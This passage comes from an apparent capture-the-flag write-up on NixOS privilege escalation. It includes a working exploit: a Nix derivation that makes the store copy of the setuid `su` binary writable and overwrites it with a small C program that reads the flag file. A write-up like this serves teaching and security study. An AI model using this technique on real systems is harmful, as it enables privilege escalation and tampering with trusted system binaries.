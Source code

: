 ```
-r-s--x--x 1 root root       63472 Mar 18 19:31 unix_chkpwd
```

Realistically, any of these could be chosen, since they all run as root,
but for the purpose of this example I am going with `su`, which is provided
by the `shadow` package (as shown by a quick `readlink $(whereis su)`).

```
[user@nixos:~]$ readlink $(whereis su)
/nix/store/bys9y4myz2a042l6yscf7gxibi4aw8c7-shadow-4.14.3-su/bin/su
```

With this in mind, we can now change our derivation to override the `su`
binary with a custom binary that just prints the flag.
To achieve this, we can copy our malicious binary over the `su` binary
in `pkgs.shadow.su` ([`su` is the output of the `shadow` package][su-output] that
actually includes the `su` binary).
Initially, I used a simple bash script that would just `cat` the flag, but
[Linux ignores the setuid bit on all interpreted executables][setuid-shell],
which meant the script did not run as root and failed to print it.
For that reason, we can resort to a simple C binary that does the same thing.

```nix, hl_lines=10
# ...
{
  packages.${system} = rec {
    exploit = pkgs.stdenv.mkDerivation {
      # ...
      installPhase = ''
        echo ${pkgs.shadow.su}

        chmod +w ${pkgs.shadow.su}/bin/su
        cp ${get-flag}/bin/get-flag ${pkgs.shadow.su}/bin/su
        chmod -w ${pkgs.shadow.su}/bin/su

        echo success > $out
      '';
    };

    # Prints flag to stdout
    get-flag = pkgs.writeCBin "get-flag" ''
      #include <stdio.h>
      int main() {
        char buffer[1024];
        FILE *f = fopen("/data/flag", "r");
        int n = fread(buffer, 1, 1023, f);
        fwrite(buffer, 1, n, stdout);
        return 0;
      }
    '';
  };
}
```
